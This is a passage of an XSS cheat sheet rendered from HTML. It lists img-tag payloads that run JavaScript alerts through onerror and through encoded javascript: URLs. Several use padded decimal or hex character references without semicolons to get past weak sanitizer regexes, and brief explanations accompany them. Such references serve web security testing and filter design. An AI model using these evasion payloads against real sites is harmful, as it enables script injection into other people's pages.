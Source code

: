 <h2><a id="user-content-on-error-alert" class="anchor" aria-hidden="true" href="#on-error-alert"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>On error alert</h2>
<pre><code>&lt;IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"&gt;&lt;/img&gt;
</code></pre>
<h2><a id="user-content-img-onerror-and-javascript-alert-encode" class="anchor" aria-hidden="true" href="#img-onerror-and-javascript-alert-encode"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>IMG onerror and javascript alert encode</h2>
<pre><code>&lt;img src=x onerror="&amp;#0000106&amp;#0000097&amp;#0000118&amp;#0000097&amp;#0000115&amp;#0000099&amp;#0000114&amp;#0000105&amp;#0000112&amp;#0000116&amp;#0000058&amp;#0000097&amp;#0000108&amp;#0000101&amp;#0000114&amp;#0000116&amp;#0000040&amp;#0000039&amp;#0000088&amp;#0000083&amp;#0000083&amp;#0000039&amp;#0000041"&gt;
</code></pre>
<h2><a id="user-content-decimal-html-character-references" class="anchor" aria-hidden="true" href="#decimal-html-character-references"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Decimal HTML character references</h2>
<p>All of the XSS examples that use a javascript: directive inside of an <code>&lt;IMG</code> tag will not work in Firefox or Netscape 8.1+ in the Gecko rendering engine mode).</p>
<pre><code>&lt;IMG SRC=&amp;#106;&amp;#97;&amp;#118;&amp;#97;&amp;#115;&amp;#99;&amp;#114;&amp;#105;&amp;#112;&amp;#116;&amp;#58;&amp;#97;&amp;#108;&amp;#101;&amp;#114;&amp;#116;&amp;#40;&amp;#39;&amp;#88;&amp;#83;&amp;#83;&amp;#39;&amp;#41;&gt;
</code></pre>
<h2><a id="user-content-decimal-html-character-references-without-trailing-semicolons" class="anchor" aria-hidden="true" href="#decimal-html-character-references-without-trailing-semicolons"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Decimal HTML character references without trailing semicolons</h2>
<p>This is often effective in XSS that attempts to look for "&amp;#XX;", since most people don't know about padding - up to 7 numeric characters total. This is also useful against people who decode against strings like $tmp_string =~ s/.*\&amp;#(\d+);.*/$1/; which incorrectly assumes a semicolon is required to terminate a html encoded string (I've seen this in the wild):</p>
<pre><code>&lt;IMG SRC=&amp;#0000106&amp;#0000097&amp;#0000118&amp;#0000097&amp;#0000115&amp;#0000099&amp;#0000114&amp;#0000105&amp;#0000112&amp;#0000116&amp;#0000058&amp;#0000097&amp;#0000108&amp;#0000101&amp;#0000114&amp;#0000116&amp;#0000040&amp;#0000039&amp;#0000088&amp;#0000083&amp;#0000083&amp;#0000039&amp;#0000041&gt;
</code></pre>
<h2><a id="user-content-hexadecimal-html-character-references-without-trailing-semicolons" class="anchor" aria-hidden="true" href="#hexadecimal-html-character-references-without-trailing-semicolons"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Hexadecimal HTML character references without trailing semicolons</h2>
<p>This is also a viable XSS attack against the above string $tmp_string=~ s/.*\&amp;#(\d+);.*/$1/; which assumes that there is a numeric character following the pound symbol - which is not true with hex HTML characters).</p>